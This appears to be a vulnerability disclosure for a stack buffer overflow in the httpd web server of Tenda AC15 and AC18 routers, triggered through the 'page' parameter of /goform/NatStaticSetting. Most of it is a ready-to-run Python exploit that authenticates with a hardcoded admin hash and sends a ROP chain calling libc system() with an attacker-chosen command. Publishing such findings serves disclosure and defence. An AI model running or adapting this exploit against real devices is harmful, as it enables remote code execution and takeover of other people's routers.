



Vendor of the products:　Tenda

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　AC15 V15.03.05.19_multi, AC18 V15.03.05.19_multi

# Overview

An issue was discovered on Tenda AC15 V15.03.05.19_multi and AC18 V15.03.05.19_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/NatStaticSetting** page parameter for a post request, the value is directly used in a *sprintf* function and passed to a local variable placed on the stack, which can override the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# PoC



# Exp

```python
import requests
from urllib import parse
from pwn import *

main_url = "http://127.0.0.1:80"

def login_success():
    global password
    url = main_url + "/login/Auth"
    s = requests.Session()
    s.verify = False
    headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
    data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
    data = parse.urlencode(data)

    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    password = response.cookies.get_dict().get("password")
    print(response)
    if password is None:
        login_success()
    else:
        print(password)

def poc():
    url = main_url + "/goform/NatStaticSetting"

    cmd = b'echo yab....'
    libc_base = 0x40202000
    system_offset = 0x0005a270
    system_addr = libc_base + system_offset
    gadget1 = libc_base + 0x00018298
    gadget2 = libc_base + 0x00040cb8
    
    print(hex(gadget1), hex(gadget2))
    headers = {'Cookie': 'password=' + password}
    data = b'op=no&page='+ b'A' * (244) + p32(gadget1) + b'A' * 16 + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
    data = data.decode('latin1')
    print(len(data))
    response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    login_success()
    poc()

```

# Vul Details

## Codes in httpd



## Attack Effect

